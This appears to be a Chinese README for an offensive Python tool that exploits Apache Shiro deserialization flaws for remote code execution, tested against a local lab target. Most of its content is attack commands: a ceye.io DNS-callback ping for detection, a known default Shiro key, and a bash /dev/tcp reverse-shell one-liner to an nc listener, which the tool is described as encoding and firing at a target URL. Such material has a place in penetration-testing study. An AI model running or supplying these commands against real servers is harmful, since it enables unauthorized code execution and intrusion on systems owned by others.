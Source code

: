 # 0x00 前言

最近在做shiro反序列化漏洞复现，从网上也找了一堆复现文章和工具，但是这些工具用着都不太舒服，于是参考网上大佬们的工具，自己进行了一些简单的改良。

# 0x01 工具安装

本工具需要Python3环境，下载本工具后，安装Python第三方库即可使用。

```
git clone https://github.com/teamssix/shiro-check-rce.git
cd shiro-check-rce
pip3 install -r requirements.txt
```

# 0x02 工具介绍

```
   _____ __    _               ________              __      ____  ____________
  / ___// /_  (_)________     / ____/ /_  ___  _____/ /__   / __ \/ ____/ ____/
  \__ \/ __ \/ / ___/ __ \   / /   / __ \/ _ \/ ___/ //_/  / /_/ / /   / __/   
 ___/ / / / / / /  / /_/ /  / /___/ / / /  __/ /__/ ,<    / _, _/ /___/ /___   
/____/_/ /_/_/_/   \____/   \____/_/ /_/\___/\___/_/|_|  /_/ |_|\____/_____/   By TeamsSix

我的个人博客：teamssix.com
我的个人公众号：TeamsSix

-c ：输入要执行的命令
-h ：查看帮助
-k : 输入自定义的key，不输入此参数时将遍历尝试默认key
-t ：输入你的ceye.io的token，用于检测shiro漏洞是否存在，此选项需要配合 -c "ping your.ceye.io" 使用
-u ：指定URL

python3 shiro-check-rce.py (-c) <command> [-h] [-k] <key> [-t] <token> (-u) <url>
```

## 1、漏洞检测

该功能需要你有一个[http://ceye.io/](http://ceye.io/)的账号，在[http://ceye.io/profile](http://ceye.io/profile)页面，找到自己的`Identifier`值和`API Token`值。

使用 -t 和 -c 参数配合使用，即可调用默认key字典进行检测.

> 文中的 http://192.168.175.146:8080/ 为本地靶机，192.168.175.152:9527 为 nc 监听地址。

```
python3 shiro-check-rce.py -u {target_URL} -c "ping {your.ceye.io}" -t {your_token}

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "ping txxxxd.ceye.io" -t 1xxxxxxxxxxxxx6
```

![](./images/shiro-check-rce-1.png)

如果你有自己的key，也可以使用 -k 参数进行指定。

```
python3 shiro-check-rce.py -u {target_URL} -c "ping {your.ceye.io}" -t {your_token} -k {key}

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "ping txxxxd.ceye.io" -t 1xxxxxxxxxxxxx6 -k kPH+bIxk5D2deZiIxcaaaA==
```

![](./images/shiro-check-rce-2.png)

## 2、反弹shell

这里我采用bash命令反弹到本地nc监听端口的方式，因此我这里需要先在本地建立一个 nc 监听端口。

```
nc -lvvp 9527
```

之后，执行反弹shell命令

```
bash -i >& /dev/tcp/{your_nc_ip}/{your_nc_port} 0>&1

示例：bash -i >& /dev/tcp/192.168.175.152/9527 0>&1
```

本工具会对输入命令进行识别，如果检测到用户输入了bash反弹shell命令，将会自动对命令进行编码，无需自己编码，避免了明明存在漏洞却因为编码问题而反弹不了shell的尴尬。

```
python3 shiro-check-rce.py -u {target_URL} -c "bash -i >& /dev/tcp/{your_nc_ip}/{your_nc_port} 0>&1"

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "bash -i >& /dev/tcp/192.168.175.152/9527 0>&1"
```

![](./images/shiro-check-rce-3.gif)

如果知道key的话，就直接 -k 指定 key 即可

```
python3 shiro-check-rce.py -u {target_URL} -c "bash -i >& /dev/tcp/{your_nc_ip}/{your_nc_port} 0>&1" -k {key}

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "bash -i >& /dev/tcp/192.168.175.152/9527 0>&1" -k kPH+bIxk5D2deZiIxcaaaA==
```

![](./images/shiro-check-rce-4.gif)

# 0x03 注意事项

* 1、本程序需要 python3 环境以及 java环境
* 2、在进行漏洞检测时，-c 指定 ping 的 URL 和 -t 指定的 token 需要是同一 ceye 账户的。
* 3、在安装`pycryptodome`库时，可能会碰到一些问题，可以根据报错信息进行排查，或者到网上找寻相关资料


![](https://teamssix.oss-cn-hangzhou.aliyuncs.com/TeamsSix_Subscription_Logo2.png)
